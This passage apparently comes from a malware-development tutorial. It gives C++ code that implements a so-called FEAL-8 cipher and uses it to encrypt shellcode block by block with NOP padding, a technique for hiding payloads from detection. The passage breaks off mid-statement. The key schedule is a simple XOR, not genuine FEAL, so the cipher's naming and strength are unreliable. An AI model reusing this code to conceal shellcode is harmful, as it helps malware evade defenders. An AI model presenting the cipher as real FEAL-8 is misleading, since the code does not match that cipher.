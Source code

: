 ```cpp
// key schedule for FEAL-8
void key_schedule(uint8_t* key) {
  for (int i = 0; i < ROUNDS; i++) {
    for (int j = 0; j < 8; j++) {
      K[i][j] = key[j] ^ (i + j);
    }
  }
}
```

Then, the next one is encryption logic:    

```cpp
// FEAL-8 encryption function
void feal8_encrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of encryption
  for (int i = 0; i < ROUNDS; i++) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}
```

This function performs `FEAL-8` encryption on a `64-bit` data block (split into two `32-bit` halves: `left` and `right`). It performs `8-rounds` of encryption by applying the `G` function with the appropriate round key in each round.    

Decryption logic:     

```cpp
// FEAL-8 decryption function
void feal8_decrypt(uint32_t* block, uint8_t* key) {
  uint32_t left = block[0], right = block[1];

  // perform 8 rounds of decryption in reverse
  for (int i = ROUNDS - 1; i >= 0; i--) {
    G(&left, &right, K[i]);
  }

  // final swapping of left and right
  block[0] = right;
  block[1] = left;
}
```

And shellcode encryption and decryption logic:    

```cpp
// function to encrypt shellcode using FEAL-8
void feal8_encrypt_shellcode(unsigned char* shellcode, int shellcode_len, 
uint8_t* key) {
  key_schedule(key);  // Generate subkeys
  int i;
  uint32_t* ptr = (uint32_t*)shellcode;
  for (i = 0; i < shellcode_len / BLOCK_SIZE; i++) {
    feal8_encrypt(ptr, key);
    ptr += 2;
  }
  // handle remaining bytes by padding with 0x90 (NOP)
  int remaining = shellcode_len % BLOCK_SIZE;
  if (remaining != 0) {
    unsigned char pad[BLOCK_SIZE] = 
```